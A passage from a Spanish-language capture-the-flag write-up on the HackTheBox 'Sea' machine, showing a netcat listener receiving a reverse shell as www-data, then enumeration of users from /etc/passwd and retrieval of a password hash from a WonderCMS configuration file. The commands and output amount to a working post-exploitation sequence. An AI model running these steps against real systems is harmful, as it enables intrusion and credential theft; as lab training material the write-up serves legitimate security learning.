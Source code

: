 ```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.160] from (UNKNOWN) [10.10.11.28] 51998
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 17:52:05 up  1:12,  0 users,  load average: 0.10, 0.77, 1.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
## Post exploitation

### User Pivoting

Obtengo acceso al sistema como el usuario www-data, este es un usuario con bajo privilegios por lo que debo de buscar alguna manera de pivotar hacia otro usuario. Comenzaré visualizando cuales son los usuarios que existen en el sistema.

```bash
www-data@sea:/$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
amay:x:1000:1000:amay:/home/amay:/bin/bash
geo:x:1001:1001::/home/geo:/bin/bash
```

WonderCMS debe de contener sus archivos en algun lado y seguramente existan archivos de configuración los cuales puedan contener información sensible, investigando encuentro un hash de una contraseña en /var/www/sea/data/database.js

```bash
www-data@sea:/var/www/sea/data$ cat database.js 
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2025\/01\/15 17:58:23": "127.0.0.1",
            "2025\/01\/15 17:54:23": "127.0.0.1",
            "2025\/01\/15 17:54:22": "127.0.0.1",
            "2025\/01\/15 17:51:52": "127.0.0.1",
            "2025\/01\/15 17:50:42": "127.0.0.1"
        },
```
